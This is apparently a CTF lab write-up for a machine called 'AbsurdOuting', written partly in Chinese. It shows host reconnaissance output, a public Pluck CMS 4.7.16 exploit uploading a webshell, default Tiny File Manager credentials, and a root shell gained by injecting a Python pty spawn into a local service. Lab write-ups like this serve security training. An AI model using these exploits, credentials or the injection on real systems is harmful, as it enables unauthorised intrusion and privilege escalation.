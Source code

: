 # AbsurdOuting

## 信息收集

```bash
Detected ss and lsof, executing related commands...
Port: 33060, PID: 928
—> Command: /usr/sbin/mysqld 
Port: 3306, PID: 928
—> Command: /usr/sbin/mysqld 
Port: 53, PID: 637
—> Command: /lib/systemd/systemd-resolved 
Port: 22, PID: 836
—> Command: sshd: /usr/sbin/sshd -D [listener] 1 of 10-100 startups 
Port: 1337, PID: 818
—> Command: /usr/bin/socat TCP-LISTEN:1337,bind=127.0.0.1,FORK EXEC:/usr/bin/python2 /root/fight/main.py 

## ———————————————————————————— ##

Nginx is not installed.

## ———————————————————————————— ##

Detected apache, analyzing its configuration...

Unique Hosts:


## ———————————————————————————— ##

Checking /etc/sudoers (active configurations only):
  Defaults      env_reset
  Defaults      mail_badpass
  Defaults      secure_path="/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin"
  root  ALL=(ALL:ALL) ALL
  %admin ALL=(ALL) ALL
  %sudo ALL=(ALL:ALL) ALL
———
Finding SUID files:
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/bin/mount
/usr/bin/sudo
/usr/bin/gpasswd
/usr/bin/umount
/usr/bin/passwd
/usr/bin/fusermount
/usr/bin/chsh
/usr/bin/at
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/su
———
Finding files with special capabilities:
  /usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
  /usr/bin/ping = cap_net_raw+ep
  /usr/bin/mtr-packet = cap_net_raw+ep
  /usr/bin/traceroute6.iputils = cap_net_raw+ep
———
Detected nginx or apache2 process running.
Found /var/www directory. Compressing it to web.zip...
bash: line 150: zip: command not found
Compression failed.
```

## Port 80 /pluck pluck 4.7.16

[Pluck CMS 4.7.16 - Remote Code Execution (RCE) (Authenticated) - PHP webapps Exploit](https://www.exploit-db.com/exploits/50826)

```bash
┌──(randark㉿kali)-[~/pocs]
└─$ python3 Pluck-CMS-Pluck-4.7.16-Theme-Upload-Remote-Code-Execution-Authenticated--POC.py 10.10.110.102 80 admin /pluck

Authentification was succesfull, uploading webshell

Uploaded Webshell to: http://10.10.110.102:80/pluck/data/themes/shell/shell.php
```

![img](img/image_20250449-194929.png)

## Port 80 /hotel HotelDruid version 3.0.3

版本过高，无漏洞信息

## Port 80 /tiny Tiny File Manager

默认凭据

```plaintext
admin/admin@123
user/12345
```

任意文件上传

![img](img/image_20250405-200532.png)

## 提权

```bash
(remote) www-data@htb:/tmp$ nc 127.0.0.1 1337
Jotaro put himself in jail!
Can you convince him to get out?
Defeat him!
Your attacks are:
0: Cross Fire Hurricane
Damage: D5
1: Red Bind
Damage: S2
2: Punch
Damage: D1
__import__("pty").spawn("/bin/bash")
root@htb:~# cat /root/flag.txt
cat /root/flag.txt
cf66d5355ca3252cca44190f2a05573d
```
